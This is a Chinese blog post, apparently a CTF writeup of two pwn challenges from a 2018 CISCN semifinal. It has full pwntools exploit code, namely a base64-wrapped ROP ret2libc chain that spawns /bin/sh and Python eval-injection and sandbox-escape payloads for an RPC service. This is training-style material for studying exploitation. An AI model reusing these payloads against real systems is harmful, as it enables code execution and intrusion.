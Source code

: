 ```yaml
---
layout: article
title: ciscn 华南区半决赛的两道 pwn 题 writeup 
key: 20180612
tags:
  - CTF
  - PWN
typora-root-url: ..\
---
```


初学 pwn 没多久，功力还不够，所以只能刚出两道比较简单的 pwn 题。。

<!--more-->

## mirage_game (pwn4)

因为这个题是第一天放出来的，所以摆在 pwn1 的前面。在做这题之前我一直在刚 web7，一道有 backdoor.so 的 Web 题。。。搞了好久没搞出。于是去看看队友的 pwn 搞得怎样，一看发现事情并不简单，然后就转去搞 pwn 不管 Web 了（PS. 打完和别人交流发现其实 web7 快要出的了，血崩！）

好了，废话不多说。把 pwn4 拖进 IDA，F5 后简单浏览下 main 函数，发现有一个类型号为66的分支，调用了一个函数名很神奇的函数，最终进去就发现这就是漏洞点。

```c
__int64 sfadkjf()
{
  char dest; // [rsp+0h] [rbp-30h]
  char *src; // [rsp+20h] [rbp-10h]
  char *v3; // [rsp+28h] [rbp-8h]

  // ...
  v3 = malloc(0x100uLL);
  src = malloc(0x100uLL);
  // ...
  gets(v3, 0LL);
  base64_decode(v3, src);
  memcpy(&dest, src, 0x80uLL);
  // ...
}
```

但是这个漏洞并不像普通的栈溢出漏洞，它是把输入的内容进行 base64 解码之后，再复制到栈上，所以就不能简单的用 `pattern create 200` 来计算要溢出多少个字节。稍微棘手一点点，但还是不难。

首先向往常那样用 `pattern create 200` 创建200个每4字符互不相同的字符串，对它进行 base64 编码，再输入进 pwn4。然后用 gdb attach 上去调试，刚开始不知道出现在什么函数，不慌，一路 next 过去，就逐渐会跳回 sfadkjf 函数了。在 memcpy 之前记住栈上保存函数返回地址的地址，等字符串复制完之后找一下那里的字符串是什么，用 `pattern offset` 算一下就可以得出需要溢出56个字节了。接下来就是普通的 ROP 了。

因为 write 函数的参数比较难满足，所以用了 puts 函数来泄漏地址。

```python
# 泄漏 puts 的地址
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
prdi_ret = 0x0000000000403383 # ROPgadget --binary ./mirage_game --only "pop|ret" | grep "pop rdi"
sfadkjf  = 0x000000000040173C

payload = "A" * 56 + p64(prdi_ret) + p64(puts_got) + p64(puts_plt) + p64(sfadkjf)
payload = b64encode(payload)
io.sendline(payload)
io.recvuntil("t!\n")
result = io.recv(8)
io.recv()
puts_addr = int('0x' + hex(u64(result))[6:], 16)
print 'puts_addr ', hex(puts_addr)
```

需要注意的是，因为 sfadkjf 接收到 payload 之后会来一个 base64 解码，所以在发 payload 之前要先 base64 编码。拿到了 puts 的地址之后，就可以计算 system 和 "/bin/sh" 字符串的地址了，然后就可以 getshell 之后 getflag。

```python
# 计算 system 和 binsh 的地址，然后 getshell
base   = puts_addr - libc.symbols['puts']
system = base + libc.symbols['system']
binsh  = base + libc.search('/bin/sh').next()
print "system is ",  hex(system)
print "binsh is  ",  hex(binsh)

payload = "A" * 56 + p64(prdi_ret) + p64(binsh) + p64(system) + p64(prdi_ret) + p64(binsh) + p64(system)
payload = b64encode(payload)
io.sendline(payload)
print io.recv()

io.interactive()
```

[题目源文件下载地址](/assets/posts/2018-06-12-ciscn2018-pwn-writeup/mirage_game.zip)

## pwn (pwn1)

第二天的 getflag 阶段只有3个小时，猜测题目应该不会很难，结果打脸了。这道 pwn1 好不容易才找到漏洞点，然而想不出怎么 patch，另一道 pwn6 直接就找不到漏洞点。。真的太菜了

这个的漏洞有点难定位（感觉我有可能是非预期解），丢进 IDA 看一下 Strings 窗口发现有一个字符串是 `"python -c 'print eval(\"%s\")'"` ，追踪上去，发现是位置在 4038F6 的函数使用了这个字符串。继续追踪上去就可以知道当类型号为3的时候，会进入到这函数里面。（后来才发现这是一个完全按照主办方说明写的 RPC 服务）运行这个 python 命令是为了把 python 当作一个计算器，实现主办方要求的表达式计算，但是却能被用来执行指令。

看一下各类型的含义：

>### 发送包
>
>#### connect -- type = 0
>
>连接包，在建立连接时确认连接建立成功，表示开启服务，没有自定义域，服务器收到返回 done 包。
>
>#### declare -- type = 1
>
>分配消息队列包，向服务器请求一个消息队列，分配一个消息队列 id 作为返回，包含在 result 包中。
>
>#### retrieve -- type = 2
>
>获取消息包，需要依次提供 `key` 和 `corr_id` 两个自定义域，均为字符串，域长度为32位以内。按照 key 所对应的消息队列，试图获取 `corr_id` 请求得到的结果。服务器收到之后确认 key 所对应的消息队列目前的队首消息是否为 `corr_id` 请求的结果，如果不是则返回 unavailable 包，否则弹出队首结果并且返回 result 。
>
>#### call -- type = 3
>
>发起请求包，依次提供 `reply_to`，`corr_id` 和 `expr` 三个域，同样为长度32位以内，均为字符串。发起一个请求，id 为 `corr_id` ，表达式内容为 `expr`，返回结果加入 `reply_to` 作为 key 所对应的消息队列。 成功返回 done 包。
>
>#### close -- type = 4
>
>无自定义域，停止本次连接，服务器接收到该包可以断开连接。

所以思路就有了，首先用类型号1，来获取一个消息队列 id 。（因为不涉及到溢出，所以加了个全局的 `context.endian = 'big'` ，省得后面每次都要写）

```python
# get corr_id
payload = b'RPCM' + p32(12) + p32(1)
io.send(payload)
corr_id = io.recv()[16:]
print corr_id
```

然后再用类型号3，按照指定格式发送需要计算的表达式，并指定存计算结果的 reply_to 为 “reply001”，这里把表达式替换成 python 命令，让 eval 去执行。

```python
# send expr
payload = p32(36) + corr_id + p32(8) + b'reply001'
payload += p32(34) + b'__import__(\\\"os\\\").system(\\\"pwd\\\")'
#payload += p32(16) + b'0x1000+0x25+0.11'
payload = b'RPCM' + p32(len(payload)+12) + p32(3) + payload
io.send(payload)
print io.recv()
```

最后用类型号2，使用之前的 corr_id 来获取计算结果，即命令运行结果。

```python
# get calc result
payload = p32(36) + corr_id + p32(8) + b'reply001'
payload = b'RPCM' + p32(len(payload)+12) + p32(2) + payload
io.send(payload)
print io.recv()
```

在本地跑发现，执行命令的时候，命令中间不能有空格，不管怎么转义都不行。。于是向队友求助，他丢给我一个 ciscn 初赛时候 python 沙箱的 payload，一跑通了，愉快地 getflag ~

```python
payload += p32(75) + b'().__class__.__bases__[0].__subclasses__()[40](\\\"/home/ciscn/flag\\\").read()'
```

[题目源文件下载地址](/assets/posts/2018-06-12-ciscn2018-pwn-writeup/pwn.zip)

## 其他需要注意的

这次的 pwn 题都是 RPC 服务，协议格式是：

```
+----------+-----------+---------+------
| magic(4) | length(4) | type(4) | ...
+----------+-----------+---------+------
```

其中 length 和 type 是大端序，所以用 pwntools 打包数据时，要指定大端，如 `p32(26, endian='big') ` ，刚开始没考虑到这一点，折腾了好久。但是在进行栈溢出的时候，因为目标机器是 Linux 环境，用的是小端序，所以要切换回来。最好是按协议发的包才临时在后面加上个 `endian='big'` 。
